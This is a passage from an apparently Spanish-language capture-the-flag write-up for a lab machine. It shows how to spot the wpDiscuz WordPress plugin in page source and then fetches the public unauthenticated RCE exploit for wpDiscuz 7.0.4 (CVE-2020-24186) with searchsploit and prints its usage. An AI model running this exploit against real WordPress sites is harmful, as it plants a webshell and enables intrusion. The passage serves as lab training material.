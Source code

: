 Antes de continuar, si revisamos el código fuente de la publicación que vimos antes, podremos ver que ahí se está utilizando el **plugin wpdiscuz**:

<p align="center">
<img src="/assets/images/THL-writeup-aceituno/Captura11.png">
</p>

Por lo que es una buena idea revisar el código fuente de las publicaciones, pues ahí es posible que podamos encontrar plugins.

Ahora sí, continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Exploit">Probando Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)</h2>

Este Exploit, aprovecha una vulnerabilidad en el **plugin wpdiscuz 7.0.4** que permite subir archivos, siendo que carga una webshell con la que podemos ejecutar comandos.

Aquí te dejo una PoC que realizó **INE Security**:
* <a href="https://ine.com/blog/vulnerability-lab-wordpress-plugin-wpdiscuz-unauthenticated-rce" target="_blank">Vulnerability Lab: WordPress Plugin wpDiscuz Unauthenticated RCE</a>

Vamos a copiarnos este Exploit en nuestro directorio de trabajo:
```bash
searchsploit -m php/webapps/49967.py
  Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/49967
     Path: /usr/share/exploitdb/exploits/php/webapps/49967.py
    Codes: CVE-2020-24186
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (864)
```

Podemos ver su forma de uso:
```bash
python 49967.py
[+] Specify an url target
[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost
[+] Example help usage: exploit.py -h
```
